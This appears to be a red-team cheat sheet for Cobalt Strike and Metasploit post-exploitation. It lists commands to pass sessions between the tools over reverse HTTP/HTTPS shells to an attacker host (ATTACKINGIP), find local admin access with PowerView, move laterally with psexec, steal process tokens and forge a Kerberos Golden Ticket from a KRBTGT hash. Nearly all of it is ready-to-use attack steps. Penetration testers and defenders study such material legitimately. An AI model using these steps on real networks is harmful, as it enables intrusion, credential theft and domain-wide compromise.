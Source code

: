 # Cobalt Strike

Move a meterpreter / metasploit session to Cobalt

\(Spawn Beacon from Meterpreter\)

```
in Cobalt
setup a listener
windows/beacon_http/reverse_http

in Metasploit
use exploit/windows/local/payload_inject
set PAYLOAD windows/meterpreter/reverse_http
set LHOST [IP of Cobalt Strike Listenter]
set LPORT 80
set session 1
set DisablePayloadHandler True
exploit (-j)
```

Move a Cobalt beacon to Metasploit

\(Spawn Meterpreter from Beacon\)

```
in Metasploit
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST ATTACKINGIP
set LPORT 443
set ExitOnSession False
exploit (-j)

in Cobalt
setup a foreign listener
windows/foreign/reverse_https
Right Click Beacon-->Spawn-->Select foreign beacon

Note: Cobalt will spawn an x86 shell, for any post exploit modules make sure to migrate to an x64 process like svchost
if applicable
```

View targets available from Initial Target

```
Right Click Target --> Explore -->Net View
or
Net computers
net dclist

```

Find where we are a local admin

```
beacon: powershell-import /root/PowerTools/PowerView/powerview.ps1
beacon: Invoke-FindLocalAdminAccess
```

Login to target where we are local admin

```
Right Click Target -->Login -->psexec (change Listener to SMB beacon)(choose a session)
(user session's current token)
```

Get token from processes

```
Right Click Target -->Explore-->Process List-->Steal Token
```

Create Multiple beacons on targets

```
Select the targets --> Right Click -->Login -->psexec --> choose a beacon with an elevated token-->
(user session's current token)-->Launch
```

Golden Ticket Generation

```
Need four items
1)User
2)Domain
3)Domain SID
4)KRBTGT Hash

3) shell whoami /user to obtain SID (also provides 1 & 2)
4) obtained from a previous compromise (i.e. NTLM hashdump)

With that Right Click-->Access-->Golden Ticket-->Input Four fields-->Build

Verify it works: #shell dir \\[DC]\C$
```



